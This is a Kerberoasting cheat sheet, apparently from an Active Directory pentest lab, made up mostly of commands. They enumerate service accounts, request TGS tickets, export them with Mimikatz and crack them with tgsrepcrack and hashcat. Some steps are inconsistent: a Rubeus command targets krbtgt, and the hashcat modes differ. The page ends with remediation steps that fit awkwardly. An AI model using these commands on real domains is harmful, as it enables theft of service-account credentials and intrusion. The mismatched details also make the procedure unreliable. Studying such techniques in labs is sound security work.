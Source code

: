 # 🟢 Kerberoast

### **Find user accounts used as service accounts**

```
. ./GetUserSPNs.ps1
```

```
Get-NetUser -SPN
```

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```



### **Reguest a TGS**

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

or

```
Request-SPNTicket "MSSQLSvc/dcorp.dollarycorp.local"
```

### **Export ticket using Mimikatz**

```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

### **Crack the ticket**

Crack the password for the service account

```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

```
.\hashcat.exe -m 18200 -a 0 <HASH FILE> <WORDLIST>
```

<table data-card-size="large" data-view="cards" data-full-width="true"><thead><tr><th></th><th></th><th></th><th data-hidden data-card-cover data-type="files"></th></tr></thead><tbody><tr><td></td><td></td><td></td><td><a href="../.gitbook/assets/Kerberoasting.png">Kerberoasting.png</a></td></tr><tr><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td></tr></tbody></table>

**Analyzing the ticket with Rubeus**

Once you have exported the ticket using Mimikatz, analyze it with Rubeus to get the hash for cracking.

```
.\Rubeus.exe dump /service:krbtgt /outfile:ticket.txt
```

Investigate the contents of `ticket.txt` for the hash to use in the next step.

**Using Hashcat for password recovery**

Now that you have the hash, proceed with Hashcat to attempt to recover the password.

```
.\hashcat.exe -m 13100 -a 0 -o cracked.txt ticket.txt 10k-worst-pass.txt
```

Inspect `cracked.txt` to see if the password recovery was successful. If the password is not found, consider using a larger or more targeted wordlist based on password creation policies.

**Post-compromise steps**

After successfully cracking the ticket:

1. Secure the compromised account immediately by resetting its password.
2. Investigate how the service account credentials were exposed.
3. Audit services that utilize this account to check for unauthorized changes or activities.
4. Implement account monitoring to detect future suspicious activities.
